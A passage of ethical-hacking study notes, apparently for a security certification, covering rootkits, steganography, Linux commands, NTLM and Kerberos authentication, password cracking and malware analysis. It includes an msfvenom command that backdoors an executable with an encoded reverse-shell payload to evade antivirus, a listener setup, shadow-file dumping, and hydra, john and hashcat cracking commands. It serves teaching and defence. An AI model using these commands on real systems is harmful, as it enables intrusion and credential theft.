  - E.g. in a [motherboard firmware](https://www.theregister.com/2018/09/28/uefi_rootkit_apt28) used to spy against governments
- **Kernel level**
  - Replaces portions of OS code or adds new malicious core to it.
  - Hard to detect as they run with OS privileges (ring 0)
  - E.g. [Linux Mint website was hacked](https://www.zdnet.com/article/hacker-hundreds-were-tricked-into-installing-linux-mint-backdoor/) to distribute ISO files with malicious kernel.
- **Boot loader level**
  - Replaces the original bootloader with a malicious one
- **Application level**
  - Changes the behavior of the target application
- **Library level**
  - Designed to replace the original system calls in order to hide the attacker's activities
- 

### Popular rootkits

- **Horse Pill**, [slides](https://www.blackhat.com/docs/us-16/materials/us-16-Leibowitz-Horse-Pill-A-New-Type-Of-Linux-Rootkit.pdf), [code](https://github.com/r00tkillah/HORSEPILL)
  - Linux rootkit that:
    1. Infects systems via the initial RAM disk (drive)
    2. Deceives system owners using container primitives.
- **GrayFish**
  - Rootkit suspectedly used by NSA in USA in attacks against e.g. Iran.
  - Implanting hard drive firmware to gain access by MBR substitution
- **ZeroAccess / Sirefef**
  - Kernel-mode rootkit. That
    - Hides the infected driver on the disk
    - Enables read and write access to the encrypted files
  - Downloads other malware on an infected machine from a P2P botnet.
- **Necurs**
  - Infector and rootkit with worlds largest P2P botnet
  - Distributes many malware, including [Locky](https://en.wikipedia.org/wiki/Locky) ransomware.
  - [Taken down](https://blogs.microsoft.com/on-the-issues/2020/03/10/necurs-botnet-cyber-crime-disrupt/) by Microsoft and its partners in 2019
- **Grayfish**
  - Developed by Equation Group that's considered to be part of the NSA.

### Bootkit

- Kernel-mode rootkit that runs every time computer runs
- Can bypass code signing (kernel-level) in Windows by attaching itself to the master boot record (MBR) of a hard drive
  - Then the rootkit is able to modify boot sequences and other options
  - Allows rootkit to be loaded before the Windows kernel is loaded
- See also [boot sector infectors](./../07-malware/viruses.md#boot-sector-infectors)

## NTFS file system

### NTFS Data Stream

- Two data streams that help NTFS store files.
  1. Stores data about the file (e.g. permissions)
  2. Stores file data

### Alternate data stream (ADS)

- Stream that's not in the file but attached to file through the Master File Table
  - the Master File Table contains a list of all file data streams and their locations on the disk
- Contains file metadata such as file attributes, author, access, and word count
- Enables attackers to inject malicious code into files and execute it
- Hard to detect because the file size and the contents remain the same.
  - Only way is to check the timestamps to detect tampering.

## Hiding files from GUI

- **Linux and macOS**
  - Prepend single dot (`.` ) in names of files/folders.
- **Windows**
  - Uses a file attribute named hidden for that
  - E.g. by using `ATTRIB +H` command
- Very easy to identify and display with command line or by changing GUI settings

## Steganography

- 📝 Technique which hides a message within another message.
  - E.g. an image that's still preserved but you embed your data into it.
- Used for maintaining information confidentiality
  - E.g. lighting a candle to reveal the secret message in the past.
- Implementations lacking a sharing secret are forms of security through obscurity
- Often reversible, hidden message is extracted when it arrives to its destination.
  - Or can be used to watermark to copyright of images, videos etc.
- Used by attackers to e.g. hide keyloggers, or inserting source code for hacking tools.
- Can be:
  - **Technical stenography**: uses scientific methods to hide messages
  - **Linguistic stenography**: uses a carrier to hide messages
- Can be: • Image • Document • Folder • Video • Audio • Web • Spam/email • DVD-ROM • Natural text • Hidden OS • Source Code

### Steganalysis

- Discovering of the hidden data in a medium
- Two phases
  1. **Detection**: ensuring existence of hidden information
  2. **Distortion**: trying to extract the hidden message
- Methods:
  - **Stego only attack**
    - Only the stego-object is available for analysis.
  - **Known stego attack**
    - Steganography algorithm is known and both the original and stego-object are available.
  - **Known message attack**
    - Hidden message and the corresponding stego-image are known.
    - The analysis of patterns that correspond to the hidden information could help decipher such messages in future.
  - **Known cover attack**
    - The stego-object as well as the original medium is available.
    - The stego-object is compared with the original cover object to detect any hidden information.
  - **Chosen message attack**
    - The steganalyst generates a stego-object from some stenography tool or algorithm of a chosen message.
    - The goal in this attack is to determine patterns in the stego-object that may point to the use of specific stenography tools or algorithms.
  - **Chosen stego attack**
    - The stenography algorithm and stego-object are known.

#### `steghide`

- [Tool](http://steghide.sourceforge.net/index.php) to embed and extract data from JPEG, BMP, WAV and AU.
- `steghide embed -cf test.jpg -ef hide-me.txt`
  - `-cf`: target file where the data will be hid
  - `-ef`: file to be embedded
  - Asks you for passphrase to encrypt the data
- `steghide extract -sf test.jpg`

### Packing Malware

- Embedding malware in other files (e.g. PDF, JPEG) to make it hidden
- Executable files to embed are good as they'll execute your malware when they're executed.
- You can do it
  - manually (hard to do, hard do detect)
  - or in a standardized way (automated, but detected easily)
- E.g. many crack files come with embedded malware.

#### `msfvenom`

- 📝 Payload generator and packer in [Metasploit framework](./../05-vulnerabilities/automated-penetration-testing-tools.md#metasploit).
- [Usage](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom) e.g. `msfvenom -a x86 --platform-windows -x /root/Downloads/someProgram.exe -k -p windows/meterpreter/reverse_tcp LHOST=192.168.122.110 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o program.exe`
  - `-x`: Executable that'll be patched (injected)
  - `-k`: Keep functionality in the program
  - `-p`: Payload to inject
    - In the example it's reverse shell that gives remote access.
    - Server becomes client (creates connection), client becomes server.
    - Victim communicates back to the attacking machine
  - `-e x86/shikata_ga_nai`: Encoder to avoid antivirus detection
  - `-i 3`: Encode 3 times for more stealth
  - Once it's executed you can start listening to the infected computer using:
    - [`msfconsole`](./../05-vulnerabilities/automated-penetration-testing-tools.md#msfconsole) to start listening to the IP address:
      - `use exploit/multi/handler`
      - `set payload windows/shell/reverse_tcp`
      - `set LHOST <target-ip-address>`
      - `set LPORT 4444`
      - `exploit`
- See also [MSFvenom | Automated penetration testing tools](./../05-vulnerabilities/automated-penetration-testing-tools.md#msfvenom)
# Linux basics

- See also Linux log files

## Linux folders

- `/`: Root
- `/var`: Variable Data / Log Files
  - See also [Linux security logs | Covering tracks](./covering-tracks.md#linux-security-logs)
- `/bin`: Binaries / User Commands
- `/sbin`: Sys Binaries / Admin Commands
- `/root`: Home dir for root user
- `/boot`: Store kernel
- `/proc`: Direct access to kernel
- `/dev`: Hardware storage devices
- `/mnt`: Mount devices
- `/etc`: Contain all your system configuration files in it e.g.
  - [Hosts file](./../10-social-engineering/social-engineering-types.md#pharming)
  - [Firewall settings](./../11-firewalls-ids-and-honeypots/firewall-overview.md#firewalld)
  - [Password files](./cracking-passwords-overview.md#linux-passwords)
  - `/etc/sudoers` that controls
    - Who can run what commands as what users on what machines
    - Special things such as whether you need a password for particular commands
- See also [path obfuscation | Evading IDS](./../11-firewalls-ids-and-honeypots/evading-ids.md#path-obfuscation)

## File permissions in Linux

- Assigned via the use of the binary equivalent for each `rwx` group
- Read-only is equivalent to 4, write is 2, and execute is 1
- To accumulate permissions, add the numbers
  - 4 is read-only
  - 6 is read and write
  - 7 is read, write and execute
- Order
  - First number corresponds to the user
  - Second to the group
  - Third is to all others.  
- E.g. `chmod 744 anyfile`
  - Allow all privileges to the user, read-only for the group, read-only for all others.

## Run processes in background

- Using `&` will cause the program to run in the background.
- Makes it only useful for programs that do not need input.
- The program will terminate if you log out
- Program can be brought to foreground using `fg <job-number>`

## 📝 Common linux commands

- `adduser` / `addgroup`: adds a new user and group to a system.
- `apropos`: quickly searches the names and descriptions of all available man pages.
- `ar`: creates, modifies, or extracts archives.
- `arch`: prints the machine's architecture.
- `bzip2`: creates compressed file archives in bzip2 format.
- `cal` / `ncal`: displays a calendar in the output.
- `cat`: concatenates files, or data provided on standard input, and prints it on the standard output.
- `cd`: changes user's present working directory.
- `chattr`: lists and edits extended filesystem attributes for files and folders like the immutable attribute.
- `chgrp`: changes the group ownership of a file.
- `chmod`: changes access permissions for a file.
- `chown`: changes the ownership and group of a file.
- `cksum`: prints the CRC checksum and byte count for the input.
- `clear`: clears the terminal screen.
- `cmp`: perform byte-by-byte comparison of two files.
- `comm`: compare two sorted files line-by-line.
- `cp`: copying files and directories.
- `cpulimit`: limits the CPU usage of a process
- `csh`: switches between Linux user shells.
- `csplit`: splits a file into sections determined by context lines.
- `curl`: downloads files from the internet by HTTP or HTTPS.
- `date`: prints or sets the system date and time.
- `dd`: copies a file, converting and formatting according to the operands.
- `df`: displays the file system disk space usage in output.
- `diff` | `diff3`: compare two files line by line.
- `dig`: query DNS servers and to resolve DNS records.
- `dir`: lists directory contents.
- `dirname`: strips last component from a file name/path.
- `dmesg`: prints or controls the kernel ring buffer.
- `dmidecode`: command prints a system's DMI (aka SMBIOS) table contents in a human-readable format.
- `dpkg`: a package manager for Debian/Debian-based systems.
- `du`: displays disk usage of files present in a directory as well as its sub-directories.
- `echo`: displays whatever input text is given to it.
- `ed`: a line-oriented text editor.
- `eject`: eject removable media (typically, a CD ROM or floppy disk).
- `env`: displays the current environment, and edit it.
- `exit`: causes the shell to exit.
- `expand`: converts tabs present in the input file(s) into spaces, and writes the file contents to standard output.
- `expr`: evaluates expressions e.g. `expr 1 + 2` outputs `3`.
- `factor`: prints the prime factors of the input number.
- `fgrep`: grep with -F option not treating regular expression metacharacters as special, processing the information as simple string instead.
- `find`: search for files in a directory as well as its sub-directories.
- `fold`: wraps each input line to fit in specified width.
- `free`: displays the amount of free and used memory in the system.
- `grep`: searches for a specified pattern in a file (or files) and displays in output lines containing that pattern.
- `groups`: displays the name of groups a user is part of.
- `gzip`: compresses the input file, replacing the file itself with one having a .gz extension.
- `gunzip`: compressed with gzip command can be restored to their original form using the gunzip command.
- `head`: displays the first 10 lines of the file to standard output.
- `hostname`: displays and sets the system's host name.
- `history`: display the history of commands that you typed in on the shell.
- `id`: prints user and group information for the current user or specified username.
- `ifconfig`: fetch esinformation related to network interfaces and configure network interfaces.
- `join`: joins lines of two files on a common field.
- `kill`: helps user kill a process by its ID sending the TERM signal to it.
- `killall`: kills a process by its name.
- `last`: shows listing of last logged in users.
- `ldd`: displays in output dependencies of a shared library.
- `ln`: creates link between files.
- `locate`: locate command helps user find a file by name.
- `logname`: prints the user-name of the current user.
- `look`: displays lines beginning with a given string.
- `ls`: lists contents of a directory in output.
- `lshw`: extracts and displays detailed information on the hardware configuration of the machine.
- `lscpu`: displays in output system's CPU architecture information (such as number of CPUs, threads, cores, sockets, and more).
- `lsof`: displays information related to files opened by processes.
- `man`: access reference manual for commands, programs/utilities, as well as functions.
- `md5sum`: print or check MD5 (128-bit) checksums.
- `mkdir`: creates directories.
- `mkfifo`: creates named pipes.
- `more`: a filter for paging through text one screenful at a time.
- `mv`: either moves a file from one directory to another, or renames it.
- `nano`: launches the 'nano' text editor.
- `netstat`: prints network connections, routing tables, interface statistics, masquerade connections, and multicast memberships.
  - Used for e.g. [Port monitoring | Malware analysis](./../07-malware/malware-analysis.md#port-monitoring)
- `nice`: runs a program with modified scheduling priority.
- `nl`: writes contents of a file to output, and prepends each line with line number.
- `nm`: display symbols from object files.
- `nproc`: displays the number of processing units available to the current process.
- `od`: dump files in octal as well as some other formats.
- `passwd`: used for changing passwords for user accounts.
- `paste`: merges lines of files
- `pidof`: gives the process ID of a running program/process.
- `ping`: checks whether or not a system is up and responding.
- `ps`: displays information (in the form of a snapshot) about the currently active processes.
- `pstree`: produces information about running processes in the form of a tree.
- `pwd`: displays the name of current/working directory.
- `rm`: removes files and/or directories.
- `rmdir`: deletes empty directories.
- `scp`: securely copies files between systems on a network.
- `screen`: keeps a terminal session open even when your SSH connection is interrupted,
- `sdiff`: performs a side-by-side merge of differences between two files.
- `sed`: a stream editor that allows users to perform basic text transformations on an input stream (a file or input from a pipeline).
- `seq`: prints numbers from FIRST to LAST, in steps of INCREMENT,
- `sha1sum`: print or check SHA1 (160-bit) checksums.
- `shutdown`: shut the system in a safe way.
- `size`: lists the section sizes as well as the total size for an object or archive file.
- `sleep`: specify delay for a specified amount of time.
- `sort`: sort lines of text files.
- `split`: splits a file into fixed-size pieces.
- `ssh`: basically OpenSSH SSH client.
- `ssh-keygen`: creates a private/public key pair for SSH.
- `stat`: displays status related to a file or a file-system.
- `strings`: displays in output printable character sequences that are at least 4 characters long.
- `su`: change user-identity.
- `sudo`: lets a permitted user run a command as another user (usually root or superuser).
- `sum`: prints checksum and block counts for each input file.
- `tac`: prints input files in reverse.
- `tail`: displays in output the last 10 lines of a file.
- `talk`: lets users talk with each other.
- `tar`: creates as well as extract archive files.
- `tee`: reads from standard input and write to standard output as well as files.
- `test`: checks file types and compare values.
- `time`: summarizes system resource usage of a program.
- `top`: gives a dynamic real-time view of a running system (in terms of its processes).
- `touch`: changes file timestamps (the access and modification times).
- `tr`: translates/squeezes/deletes characters.
- `tty`: prints the filename of the terminal connected to standard input.
- `uname`: prints certain system information.
- `unexpand`: convert spaces into tabs.
- `uniq`: report or omit repeated lines.
- `unexpand`: converts spaces present in the input file(s) into tabs, and writes the file contents to standard output.
- `uptime`: tells how long the system has been running.
- `users`: displays in output the usernames of users currently logged in to the current host.
- `vdir`: lists information about contents of a directory (current directory by default).
- `vim`: text/programming editor.
- `w`: displays information about the users currently on the machine, and their processes.
- `wall`: writes and sends a message to other users that are currently logged in.
- `watch`: monitors a program's output.
- `wc`: prints newline, word, and byte counts for a file.
- `wget`: perform a non-interactive download of files from the Web.
- `whatis`: displays single-line manual page descriptions.
- `which`: locates a command - the file and the path of the file that gets executed.
- `who`: shows who is logged on.
- `whereis`: shows in output locations of the binary, source, and manual page files for a command.
- `whoami`: prints effective `userid` of the current user.
- `xargs`: builds and executes command lines from standard input.
- `yes`: outputs a string repeatedly until killed.
- `zcat`: displays the content of gzip compressed files.
# Microsoft authentication

- Windows stores passwords in hashed form using either:
  - **Security Accounts Manager (SAM) Database**
    - A file stored at `%SystemRoot%/system32/config/SAM`
    - Locked by Windows kernel to prevent copying/moving
      - Usually stolen through bootable CD/USBs.
  - **Active Directory Database**
    - Stored on a domain controller in a database
    - Located in either `%SystemRoot%\NTDS\Ntds.dit` or `%SystemRoot%\System32\Ntds.dit`

## NTLM authentication

- New Technology (NT) LAN Manager (LM)
- Security protocols, default authentication scheme
- 📝 Consists of LM and NTLM authentication protocols
  - Challenge-response authentication protocols
  - Each stores user passwords in SAM database using different hash methodologies
  - 💡 Try all as many systems still keep older authentication for backwards compatibility.
- 💡 Insecure, can be disabled through GPO (Group Policy Object) with [privacy.sexy](https://privacy.sexy)

### LM vs NTLM

#### LM

- LM is the oldest password protocol dating back to OS/2 in 1980's
- **LM Hash**
  - E.g. `aad3c435b514a4eeaad3b935b51304f`
  - 📝 **Flow**
    1. Convert all lower case to upper case (case-insensitive)
    2. Pad password to 14 characters with NULL characters
    3. Split the password to two 7 character chunks
    4. Create two DES keys from each 7 character chunk
    5. DES encrypt the string "`KGS!@#$%`" with these two chunks
    6. Concatenate the two DES encrypted strings = LM hash.
- **Authentication flow**
  1. Client ends authentication request
  2. Server response with a challenge
  3. Client responds with DES encrypted LM hash with challenge as key
- **Weaknesses**
  - No salting allowing MITM attacks (through [pass the hash](#pass-the-hash-attack) and rainbow tables).
  - If password is less than 7 characters second half is always `0xAAD3B435B51404EE`
  - Maximum allowed length is 14 characters
  - Case insensitive: PassWord, PaSsWoRd, PASSword and other similar combinations are same as PASSWORD.
  - 💡 Turned off as default since Windows Vista/Server 2008 as it's weak
- **Cracking**

  ```txt
    john --format=lm hash.txt
    hashcat -m 3000 -a 3 hash.txt
  ```

#### NTLM

- Also known as ***NT LAN Manager***
- Uses DES with MD4 hash, used in Windows NT until SP3
- **NTLM Hash**
  - Also known as ***NTLM hash***, ***NTHash***, ***NT hash**'.
  - Algorithm: `MD4(UTF-16-LE(password))`
    - UTF-16-LE is the little endian UTF-16
  - E.g. `B4B9B02E6F09A9BD760F388B67351E2B`
  - **Cracking**
    1. Can be extracted using e.g. SAM database or [mimikatz](https://github.com/gentilkiwi/mimikatz)
    2. Then

    ```txt
      john --format=netntlm hash.txt
      hashcat -m 5500 -a 3 hash.txt
    ```

##### NTLMv1

- Also known as ***Net-NTLMv1***
- Uses both the NT and LM hash, depending on configuration and what is available.
- Deprecated, but still used in some old systems on the network.
- E.g.  

  ```txt
    u4-netntlm::kNS:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
  ```

- **Authentication flow**
  1. `C = 8-byte server challenge, random`
     - Server sends sending an 8-byte random number, the challenge
  2. `K1 | K2 | K3 = NTLM-Hash | 5-bytes-0`
     - Five zeroes are added to the hash to achieve 21 bytes
     - 21 bytes is split into three 7 byte parts
  3. `response = DES(K1,C) | DES(K2,C) | DES(K3,C)`
     - Each part is used as key in DES
     - Three encryptions are reunited to form the 24-byte response
- **Cracking**
  - 💡 Easy to crack as it lacks salting
  1. Can be captured using [Responder](https://github.com/lgandx/Responder)
  2. Then

  ```txt
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt
  ```

##### NTLM v2

- Also known as ***Net-NTLMv2***
- Uses MD5
- Introduced in Windows NT 4.0 SP1 (Windows 2000)
- E.g.

  ```txt
    admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030
  ```

- Replaces NTLM with
  - stronger cryptography against spoofing attacks
  - ability to authenticate the client
- **Authentication flow**
  1. `SC = 8-byte server challenge, random`
     - Server sends sending an 8-byte random number, the challenge
  2. `CC = 8-byte client challenge, random`
     - 8-byte random value for the challenge
  3. `CC* = (X, time, CC2, domain name)`
     - `time`: the current time in NT Time format
     - `CC2`: an 8-byte random value
     - `X`: fixed contents of a formatting field.
  4. `v2-Hash = HMAC-MD5(NT-Hash, user name, domain name)`
     - HMAC-MD5 hash of users password and domain name with other identifying information
  5. `LMv2 = HMAC-MD5(v2-Hash, SC, CC)`
  6. `NTv2 = HMAC-MD5(v2-Hash, SC, CC*)`
  7. `response = LMv2 | CC | NTv2 | CC*`
- Cracking it
  1. Can be captured using [Responder](https://github.com/lgandx/Responder)
  2. Then:

  ```txt
    john --format=netntlmv2 hash.txt
    hashcat -m 5600 -a 3 hash.txt
  ```

### Pass the hash attack

- Also known as **pass-the-hash**
- Allows gaining access to systems without accessing password in plaintext
- Can be used on any systems using LM or NTLM authentication
- Exploits static hash that's shared between sessions in authentication protocol
- Helps to hack Windows user name, domain name, and password hashes
- Can dump hashes
  - from compromised machines by e.g. [Windows Credentials Editor](https://www.ampliasecurity.com/research/wcefaq.html) and [Pass-the-Hash Toolkit](https://en.wikipedia.org/wiki/Pass_the_hash)
  - or sniff the network
- Allows privilege escalation as domain administrators connected to machine also leaves their hashes.

## Kerberos authentication

- Network authentication protocol for client/server applications
- Protects against replay attacks and eavesdropping
- Uses both symmetric and asymmetric encryption
- Uses TCP/UDP port 88
- **Mutual authentication**
  - Both parties verifies each others identity using tickets.

### Kerberos authentication components

- Requires **Key Distribution Center (KDC)** that consists of:
  - **Authentication server (AS)**
  - **Ticket Granting Server (TGS)**
- **Ticket Granting Ticket (TGT)**
  - Small, encrypted file with limited validity
  - Protects users from MITM attacks
  - Includes session key, its expiration date, and the user's IP address

### Kerberos authentication flow

1. Client asks KDC (who has AS and TGS) for ticket to authenticate throughout the network.
   - This request is in clear text.
2. Server responds with secret key.
   - Hashed by the password copy kept on AD server (TGT).
3. TGT sent back to server requesting TGS if user decrypts.
4. Server responds with ticket, and client can log on and access network resources.

### Pass the ticket attacks

- Also known as **pass-the-ticket**
- Authentication Method using Kerberos tickets without having access to an account's password.
- Kerberos tickets are retrieved e.g. from memory on a system
- Tools include [mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus)
# Password cracking tools

- See also [Web server password cracking tools | Web server threats and attacks](./../12-web-servers/web-server-threats-and-attacks.md#web-server-password-cracking-tools)

## `crunch`

- Generates password dictionaries.
- E.g. `crunch <min-length> <max-length> <character-pool> -o <file-name>`
- Difficulty/time grows exponentially not linearly
  - Takes much longer when you e.g. increase total chars in a password.
  - E.g. `crunch 4 16 abcekfeafkapeo434@*.` generates thousands of petabytes.

## John the Ripper

- Also known as • ***JtR*** or ***`john`***
- 📝 Auto-detects OS password based on dictionary or brute-force attacks.
- Tries different passwords and compares their hashes to OS password
- Supports Windows, Linux and macOS.
- 📝 Usage:
  1. Dump OS password to a file.
     - E.g. on Linux, John has `unshadow` tool that can be used.: `unshadow /etc/passwd /etc/shadow > mypasswd`
  2. Crack password file using default order: `john mypasswd`
     - Passwords are saved in `$JOHN/john.pot`
     - You can also run `john --show mypasswd` to see the passwords

## Hydra

- Parallelized login cracker for different network protocols such as HTTP, Cisco, MySQl.
- 💡 You can use [DVWA: damn vulnerable web app](http://www.dvwa.co.uk/) for educational purposes & learning pen-testing
- E.g. `hydra -L usernamelist.txt -P passlist.txt -e ns -F -t 1 -w 10 <host-ip-address> http-form-post "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -v`
  - `-e ns`: e additional options
    - `n`: try null (for empty password)
    - `s`: try also same password as a user name
  - `-t 1`: number of tasks (based on threads), default is 16
    - ❗ Careful. Too many connections and too quick = Detected immediately
  - `-w 10`: waiting time of 10 ms
  - `<host-ip-address>`
    - Usually people go to the target using proxies and examine results in proxies.
      - E.g. [burp suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite)
  - `http-form-post "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed`
    - Posts data to server as the HTML does
    - `Login failed`: text to search in result page to determine whether the login has failed.

## Hashcat

- Very fast, GPU-based password cracker with in-kernel rule engine
- Can do dictionary hash attack, brute force hash, role based attack and more
- [Website](https://hashcat.net/hashcat/) | [source code](https://github.com/hashcat/hashcat)
- 💡 Good idea to use in cloud to get more compute power.
- Proper drivers are required for e.g. AMD and Intel and NVIDIA
- E.g. cracking Linux OS password
  - `./hashcat64.bin -a 3 -m 1800 ?u?l?l?l?d?d?d`
    - `-m 1800`: Hash mode `sha512crypt $6$, SHA512 (Unix)`
    - `-a 3 ?u?l?l?l?d?d?d`: Mask attack
      - Brute-force on user specified character sets
      - `?u?l?l?l?d?d?d`= uppercase + lowercase + lowercase + lowercase + number + number + number
      - 💡 Do certain assumptions or it might take until the next big bang to crack the password.
      - E.g. usually passwords start with capital letter and continues with lowercase letters

## Password recovery tools

- [Elcomsoft Distributed Password Recovery](https://www.elcomsoft.com/edpr.html)
  - Data recovery and password recovery services
  - Runs on Windows
  - For forensic and government agencies
  - Can crack systems passwords for Windows, Unix and Mac OS and many more other passwords.
- [Passware Kit Forensic](https://www.passware.com/kit-forensic/)
  - Tool for encrypted electronic evidence discovery and decryption
  - Can crack systems passwords for Windows, Unix and Mac OS and [many more other passwords](https://www.passware.com/kit-forensic/filetypes/).

### Windows password reset tools

- Resets Windows login passwords.
- Often can run from a bootable USB or CD/DVD.
- Include • [Stellar Password Recovery](https://www.stellarinfo.com/password-recovery/password-recovery-software.php) • [Windows Password Recovery Pro ISeePassword](https://www.iseepassword.com/windows-password-recovery.html) • [Windows Password Recovery Tool](https://www.windowspasswordsrecovery.com/) • [Windows Password Refixer](https://www.isumsoft.com/windows-password-refixer/) • [PCUnlocker](http://www.pcunlocker.com/)

#### chntpw

- Also known as [Offline NT Password & Registry Editor](http://www.chntpw.com/)
- 📝 Linux utility used for resetting or blanking local passwords used by Windows.
# Malware analysis

- Reverse engineering of a malware program
- Purpose is to
  - determine how the malware works
  - assess the potential damage it could cause
- Helps find and remove the infections that exist in a system through using designed tools an techniques.

## Malware analysis types

### Static malware analysis

- Analyzing the malware without running or installing it
- Malware's binary code is examined
- Checks for any data structures or function calls that have malicious behavior.

### Dynamic malware analysis

- Requires the malware program to be running in a monitored environment such as sandbox or a virtual machine.
- Helps in understanding how the malware works by monitoring its activities on the system.

#### Windows integrity monitoring

##### Port monitoring

- Involves monitoring services running on different ports.
- Features can include
  - analytics for packet rates, CPU, power, and bandwidth of ports
  - mirroring the traffic from one port to another
- 📝 Tools include
  - `netstat` (terminal)
    - Displays network connections, available on many OSes
    - E.g. `netstat -an` to display all connections and listening ports (`-a`) in a numerical format `-n`
  - [TCPView](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview) (GUI)
    - Windows tool to enumerate network connections and owner processes
    - Refreshes automatically
  - [CurrPorts](https://www.nirsoft.net/utils/cports.html) (GUI)
    - View open ports and connections per process on Windows
- See also • [Common ports to scan | Scanning networks](./03-scanning-networks/../../03-scanning-networks/scanning-networks-overview.md#common-ports-to-scan) • [Common ports and services to enumerate](./../04-enumeration/enumeration-overview.md#common-ports-and-services-to-enumerate)

##### Process monitoring

- Use e.g. [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) to see what processes malware starts
- Built-in `sc` command provides all sorts of information about running services on a Windows machine.
  - E.g. `sc query` to lists the running services

##### Registry monitoring

- Registry contains information, settings, options, and other values for programs and hardware installed on all versions of Microsoft Windows operating systems.
- Malware modifies registry including keys such as `Run`, `RunServices`, `RunOnce`, `RunServicesOnce`, `HKEY_CLASSES_ROOT\exefile\shell\open\command "%1" %*.`
- Use native `regedit` or e.g. [RegScanner](https://www.nirsoft.net/utils/regscanner.html), [Registry Viewer](https://accessdata.com/product-download/registry-viewer-2-0-0), [Active Registry Monitor](https://www.devicelock.com/arm/) to monitor registry changes.

##### Windows services monitoring

- Malware usually install and run themselves as services.
- Use e.g. [Windows Service Manager (SrvMan)](https://sysprogs.com/legacy/tools/srvman/), [Process Hacker](https://processhacker.sourceforge.io/), [AnVir Task manager](https://www.anvir.com/) to monitor services

##### Startup programs monitoring

- Malware modify startup settings to execute themselves when system starts
- Check:
  - Startup registry keys
  - Automatically loaded drivers
  - `boot.ini` or `bcd` (`bootmgr`) entries
  - Services that starts automatically in `services.msc`
  - Startup folder
- Tools include [Autoruns for Windows](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns), [Autorun Organizer](https://www.chemtable.com/autorun-organizer.htm), [WinTools.net: Startup Manager](http://wintools.net/startup/index.html)

##### Event logs monitoring/analysis

- Analyze logs on IDS/IPS, web servers, authentication servers etc.
- In Windows you can use Event Viewer to see system, application and security logs
- Tools include [Loggly](https://www.loggly.com/), [SolarWinds Security Event Manager (SIEM)](https://www.solarwinds.com/security-event-manager), [Splunk](https://www.splunk.com/)

##### Installation monitoring

- See what has been modified during installation process
- Tools include [SysAnalyzer](http://sandsprite.com/iDef/SysAnalyzer/), [Mirekusoft Install Monitor](https://www.mirekusoft.com/), [Revo Uninstaller Pro](https://www.revouninstaller.com/)

##### Files and folder monitoring

- Scan system files for suspicious files and folders
- Tools include:
  - `Sigverif`
    - Built-in Windows tool
    - Identifies unsigned drivers
  - [Tripwire File Integrity Manager](https://www.tripwire.com/products/tripwire-file-integrity-manager)
  - [CSP File Integrity Checker](https://www.cspsecurity.com/solutions/compliance-and-file-monitoring/file-integrity-checker/).

##### Device drivers monitoring

- Malware installs with some infected drivers
- Drivers can be seen by: Run -> `msinfo32` -> Software Environment -> System Drivers
- Tools include [DriverView](https://www.nirsoft.net/utils/driverview.html), [Driver Booster](https://www.iobit.com/en/driver-booster.php)

##### Network traffic monitoring/analysis

- Includes capturing traffic to look for malware activity
- Tools for capturing and monitoring include: [Wireshark](https://www.wireshark.org/), [Capsa Network Analyzer](https://www.colasoft.com/capsa/)

##### DNS monitoring/resolution

- DNSChanger is a DNS hijacking Trojan that can point DNS entries toward malicious name servers.
- Use e.g. [DNSQuerySniffer](https://www.nirsoft.net/utils/dns_query_sniffer.html), [DNSstuff](https://www.dnsstuff.com/).

##### API calls monitoring

- Malware use Windows APIs to perform malicious task
- API call monitoring tools include [API Monitor](http://www.rohitab.com/apimonitor), [Runscope](https://www.runscope.com/)

##### System baselining

- Allows monitoring security configuration changes over time
- Flow
  1. Take snapshots before and then after malware execution.
  2. Compare the snapshots to understand changes made by the malware.

#### Unix integrity monitoring

- Display processes: `ps -ef`
  - `-e`: selects all processes
  - `-f`: switch provides a full listing

## Sandboxing

- Technique in which you create an isolated test environment
  - Allows secure experimentation
  - Nothing (no harm) can be spilled out of the environment.
    - If something happens, the damage is confined to that sandbox
- Examples
  - **Chrome web-browser**
    - Sandboxing through multi-process architecture.
    - One or more processes are assigned to run scripts of each site.
    - Each Chrome extension and app runs in its own process
  - **Virtual machines**
    - Good for testing / reverse engineering malware
    - E.g. YouTubers messing with scammers utilizes virtual machines, [video](https://www.youtube.com/watch?v=BQ3FD26Bv8c), [video](https://www.youtube.com/watch?v=vgYeDMwteZo)
    - 💡 Good hypervisor is important to ensure nothing goes out of the environment.
      - E.g. KVM (used by AWS) is good on AWS, and Hyper-V in Windows
        - KVM installation in Fedora: `dnf install @Virtualization` and then `virt-manager` to start a GUI.
      - VirtualBox is not as feature rich.
    - 💡 Make sure host environment is safe in first place
      - E.g. in Linux you can enable [Security-Enhanced Linux](https://en.wikipedia.org/wiki/Security-Enhanced_Linux) (SELinux).
        - Supported by Fedora, Debian, Ubuntu, used by default by Android.
        - `setenforce 1` to enable, `getenforce` to query status

## Anti-malware software

- Includes e.g. antivirus, anti-spyware, anti-trojans, anti-spamware, anti-phishing, and email scanners.
- Helps detecting, mitigating, preventing and repairing any damage by malware.
- Looks for behavior typical to viruses and give warnings.
- Looks for already known virus signatures and warns the user if a threat is found.
- E.g. Kaspersky, McAffee, AVG, Norton, Avira, Bitdefender

### Detection types

- **Signature-based**
  - Compare file hash and malware hash
  - ❗ Anything new or custom written will not be detected
- **Rule-based (behavior-based)**
  - 📝 Relies on differentiating expected vs anomalous behavior
  - Analyzes certain characteristics of a program.
    - E.g. application accessing user login file. Why?
  - Can utilize AI & ML to decide whether something is a malware.
- **Sandboxing**
  - Creates environment, lets program run and examines its behavior.
  - Good to find out behavior of e.g. self-modifying code, encrypted code.

## 📝 Virus detection methods

- **Scanning**
  - Scans malware for known signatures (characteristics)
  - ❗ Only known and predefined viruses can be detected
- **Integrity checking**
  - Verifies files against their recorded integrated data
- **Interception**
